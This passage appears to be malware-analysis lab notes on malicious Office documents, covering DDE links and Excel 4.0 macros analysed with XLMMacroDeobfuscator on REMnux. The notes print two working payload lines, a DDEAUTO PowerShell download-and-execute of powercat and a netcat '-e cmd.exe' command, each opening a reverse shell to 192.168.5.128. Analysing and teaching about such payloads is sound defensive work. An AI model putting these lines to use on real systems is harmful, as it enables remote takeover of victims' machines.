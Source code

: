     Opening file: DDE-attack.docx
    DDE Links:
     DDEAUTO c:\\windows\\system32\\cmd.exe "/k powershell -c IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.5.128/powercat.ps1');powercat -c 192.168.5.128 -p 1111 -e cmd

# Excel 4.0 macros
**XLMMacroDeobfuscator** can be used to extract or decode obfuscated XLM macros (also known as Excel 4.0 macros)

Extract: `xlmdeobfuscator -f Book1.xlsm -x`

Extract, emulate and deobfuscate: `xlmdeobfuscator -f Book1.xlsm`

```
remnux@remnux:~/Desktop$ xlmdeobfuscator -f excel4macro.xls 
pywin32 is not installed (only is required if you want to use MS Excel)

|\     /|( \      (       )
( \   / )| (      | () () |
 \ (_) / | |      | || || |
  ) _ (  | |      | |(_)| |
 / ( ) \ | |      | |   | |
( /   \ )| (____/\| )   ( |
|/     \|(_______/|/     \|
   ______   _______  _______  ______   _______           _______  _______  _______ _________ _______  _______
  (  __  \ (  ____ \(  ___  )(  ___ \ (  ____ \|\     /|(  ____ \(  ____ \(  ___  )\__   __/(  ___  )(  ____ )
  | (  \  )| (    \/| (   ) || (   ) )| (    \/| )   ( || (    \/| (    \/| (   ) |   ) (   | (   ) || (    )|
  | |   ) || (__    | |   | || (__/ / | (__    | |   | || (_____ | |      | (___) |   | |   | |   | || (____)|
  | |   | ||  __)   | |   | ||  __ (  |  __)   | |   | |(_____  )| |      |  ___  |   | |   | |   | ||     __)
  | |   ) || (      | |   | || (  \ \ | (      | |   | |      ) || |      | (   ) |   | |   | |   | || (\ (
  | (__/  )| (____/\| (___) || )___) )| )      | (___) |/\____) || (____/\| )   ( |   | |   | (___) || ) \ \__
  (______/ (_______/(_______)|/ \___/ |/       (_______)\_______)(_______/|/     \|   )_(   (_______)|/   \__/


XLMMacroDeobfuscator(v 0.1.4) - https://github.com/DissectMalware/XLMMacroDeobfuscator

File: /home/remnux/Desktop/excel4macro.xls

Unencrypted xls file

[Loading Cells]
[Starting Deobfuscation]
There is no entry point, please specify a cell address to start
Example: Sheet1!A1
Macro1!A1
CELL:A1, PartialEvaluation   , EXEC("nc -nv 192.168.5.128 1111 -e cmd.exe")
CELL:A2, PartialEvaluation   , RETURN()
[END of Deobfuscation]
time elapsed: 5.66940808296203
```

# Zelster's Cheatsheet

![image](https://user-images.githubusercontent.com/56353946/227059639-92f25596-bfdf-48af-9f6f-ba5e1e5405ab.png)


